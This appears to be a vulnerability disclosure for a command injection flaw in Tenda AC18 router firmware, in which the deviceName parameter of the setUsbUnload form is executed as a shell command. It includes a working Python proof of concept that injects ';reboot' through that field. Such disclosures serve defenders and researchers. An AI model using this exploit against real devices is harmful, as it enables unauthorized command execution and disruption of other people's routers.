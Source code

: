 # Tenda AC18 V15.03.05.19 Command Injection

## Overview

- Manufacturer's address：https://www.tenda.com.cn/
- Firmware download address ： https://www.tenda.com.cn/download/detail-2683.html

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in formsetUsbUnload function.     The contents of the deviceName parameters are executed as commands.

![](img/2.png#center)
## POC

Run poc

```python
import requests

url = 'http://IP:port/goform/setUsbUnload'

headers = {"Cookie": "password=You cookie"}
data = {
    'deviceName': ';reboot'
}

r = requests.post(url=url, headers=headers, data=data)
hunzi = r.text
print(hunzi)

```

The router will restart
